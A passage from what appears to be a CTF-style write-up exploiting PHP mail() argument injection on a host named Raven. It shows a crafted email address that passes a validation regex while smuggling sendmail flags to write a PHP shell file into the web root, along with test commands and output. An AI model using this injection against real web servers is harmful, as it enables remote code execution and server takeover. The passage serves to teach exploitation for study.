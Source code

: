 ```php

$address = (string)'"test chars:\" -A/=/a/b/c test" @test.com';

print "[*] Testing the follwoing address:\n\t" . $address . "\n";

$res = preg_match($regex,$address);
echo ((bool)$res ? "TRUE\n" : "FALSE\n");

?>
```

And run it:
```
tester@Raven:# php test.php
[*] Testing the following address:
        "test the following:\" -A/=/a/b/c test" @test.com
TRUE
```

#### Exploitation

We just need to craft a a payload string that would allow us to write a log in a file reachable from the web server. Ideally, we will be able to inject php log into the file and use it as a vector to achieve code execution, as explained previously in the "Notes about PHP mail() function exploitation".

Following the above example, we can modify the address from this:

```
$address = (string)'"test chars:\" -A/=/a/b/c test" @test.com';
```
to this:
```
$address = (string)'"injection\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server" @pwnd.com';
```

If we run again the tester, we will see that this payload as well matches the validation regex: 

```
tester@Raven:# php test.php
[*] Testing the following address:
        "injection\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server" @pwnd.com
TRUE
```

When called by PHP mail function, the sendmail program would look like it was called from the commnad like in the following way:
```
tester@Raven:# sendmail -f"injection\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server" @pwnd.com

```

However, if anyone tryes to execute the command this way, he will see that it won't work. To make it work properly, it's necessary to launch it this way:
```bash
tester@Raven:# $(printf '/usr/sbin/sendmail -f"injection\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server" @pwnd.com') 

```
Killing the command with `Ctrl+C`, and listing the files within the directory, 
it's observable that the file shell.php has been created, registering the output of the command. At this point, the last thing to do is to choose where to put the PHP shell payload. We can control two additional part of the sendmail commnad, as seenable from the contact.php:
